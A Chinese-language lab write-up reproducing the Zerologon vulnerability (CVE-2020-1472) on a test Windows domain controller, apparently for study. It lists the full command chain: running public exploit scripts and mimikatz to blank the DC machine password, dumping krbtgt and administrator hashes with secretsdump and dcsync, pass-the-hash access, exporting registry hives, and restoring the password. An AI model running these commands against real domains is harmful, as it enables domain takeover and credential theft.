# CVE-2020-1472 zerologon 复现

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**实验环境**

`环境仅供参考`
- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- 域控 : 192.168.141.154 - win 2008 R2 Datacenter
- 主机 : 192.168.141.155 - win 2008 R2 Datacenter
- kali : 192.168.141.153

---

# 环境搭建

1. 搭建域控 ffffffff0x.com 域
2. 主机加入域
3. 新建个域普通用户 test

    

---

# 漏洞检测

- [SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

查询目标 netbios 名称
- linux : nbtscan -v -h 192.168.141.154
- windows : nbtstat -A 192.168.141.154



检测:
```
python3 zerologon_tester.py WIN-A5GPDCPJ7OT 192.168.141.154
```



---

# 漏洞利用

- [dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

```
python3 cve-2020-1472-exploit.py WIN-A5GPDCPJ7OT 192.168.141.154
```

已将密码置空(这里置空的是域控所在机器的机器管理员密码，而非域控密码--->域控所在机器密码跟更改可能会影响与其他域的通信或者域控上的dns等功能)





使用 impacket 套件的 secretdump 获取域控上的 hash

```
./secretsdump.py ffffffff0x/WIN-A5GPDCPJ7OT\$@192.168.141.154 -just-dc -no-pass
```



---

- mimikatz

检测
```
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$
```



利用
```
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$ /exploit
```



尝试使用空密码登录域管
```
lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:krbtgt /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword:"" /authntlm
```



导出 hash
```
mimikatz.exe "lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:administrator /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword: /authntlm" >> 1.txt
```





---

# 环境恢复

已获取域控 Administrator 的 hash，使用该 hash 尝试获取机器 hash 即 MACHINE.ACC 中的 hash,plain_password_hex 选项的值

```
./secretsdump.py ffffffff0x/administrator@192.168.141.154 -hashes aad3b435b51404eeaad3b435b51404ee:a02b23f9f201e97ba7626965189c2c37
```



使用 restorepassword 恢复 hashes
```
python3 restorepassword.py ffffffff0x/WIN-A5GPDCPJ7OT@WIN-A5GPDCPJ7OT -target-ip 192.168.141.154 -hexpass f633620959f7ebbbc2650bba35a2a309061765de1b3fa3cfb575877ec9f169fd298c4f1c6af32763396eea344d0dd5b8249022610be03ca746e4ad001c0ecb36f9e3509ce217a5969feb68c75e8e2f72a1cf5297a8de97315f0083210f296c045f46e0f42394cf2b3bfe9e56c1110527eae54e1d515a7431dbcb0e9fea850b5d49f037e3961a04a3e9bfc0a3729d05ca73078bb115e894e3710caf3ab9cb570b597c5938f5ba8e62c0ab2199ae6bcffe3fcef0b0a1564163518ac753e9a67dcc2fc388f565c30fd66712b4391a5f63a39bce5d5b71da52b4fd5e92bba4f863a92047e5a2792a883ef966f30da291408a
```



---

有些情况不能获取到 plain_password_hex，可以通过已获取的域控 hash PTH 机器并 dump sam 文件到本地, 提取 hex 进行恢复
```
./wmiexec.py ffffffff0x/administrator@192.168.141.154 -hashes aad3b435b51404eeaad3b435b51404ee:a02b23f9f201e97ba7626965189c2c37
```

导出并下载 sam
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

```
./secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```



---

或者 PTH 登录，执行下面命令重置机器密码

```
./wmiexec.py ffffffff0x/administrator@192.168.141.154 -hashes aad3b435b51404eeaad3b435b51404ee:a02b23f9f201e97ba7626965189c2c37
```

```
powershell Reset-ComputerMachinePassword
```

---

mimikatz 恢复密码
```
lsadump::postzerologon /target:192.168.141.154 /account:WIN-A5GPDCPJ7OT$
```
